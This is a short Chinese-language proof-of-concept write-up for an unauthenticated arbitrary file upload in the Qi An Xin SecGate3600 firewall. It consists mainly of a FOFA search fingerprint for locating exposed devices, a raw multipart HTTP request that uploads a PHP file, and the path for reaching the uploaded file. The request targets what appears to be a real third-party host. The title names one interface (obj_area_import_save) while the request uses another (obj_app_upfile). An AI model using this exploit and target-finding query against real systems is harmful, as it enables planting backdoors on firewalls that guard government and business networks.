



# 奇安信网神SecGate3600防火墙obj_area_import_save任意文件上传漏洞

## 1.漏洞介绍

网神SecGate3600防火墙是一款能够全面应对传统网络攻击和高级威胁的创新型防火墙产品，基于麒麟操作系统与飞腾硬件平台打造，可广泛运用于政府机构、各类企业和组织的业务网络边界，实现网络安全域隔离、精细化访问控制、高效的威胁防护和高级威胁检测等功能。该软件obj_area_import_save接口存在文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

## 2.漏洞复现

FOFA：

```
fid="1Lh1LHi6yfkhiO83I59AYg=="
```



POC：

```
POST /?g=obj_app_upfile HTTP/1.1
Host: jg.zhongdinggroup.com:8889
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```



默认上传路径 /secgate/webui/attachements/ ， 访问 attachements/test.php 文件

